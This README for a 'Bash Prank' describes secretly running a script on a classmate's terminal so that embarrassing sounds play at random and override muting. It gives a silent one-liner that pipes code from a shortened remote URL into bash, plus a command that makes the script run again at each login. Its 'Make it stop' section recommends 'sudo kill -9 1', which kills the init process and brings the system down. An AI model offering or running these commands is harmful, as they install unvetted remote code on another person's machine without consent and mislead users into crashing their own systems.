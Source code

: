 Bash Prank
-----------
Imagine you are in class.
Someone - we wont say who - opens up their terminal.
Then they close it.
Then after a random time interval - say anywhere from 1 to 300 seconds
a random sound plays.
Oh, it can be an embarrassing sound.
Did you say they had headphones on?
Didn't work very well for them now did it?
Did you say they tried muting it?
Ahh - you mean it unmuted and went to full volume a second later.

##ONE LINER##
```bash
curl -L http://git.to/pal | bash -s > /dev/null 2>&1
```

##Startup Command##
https://help.ubuntu.com/community/AddingProgramToSessionStartup
```bash
. ~/.config/al/al.sh & disown
```

## Removal Instructions ##
Really? You want to get rid of this amazing piece of code that inhances your life more than sliced bread?

## Make it stop ##
Hint: It starts with m and it plays things. The source code might be a good place to look for things to kill. I recommend:
```bash
    sudo kill -9 1
```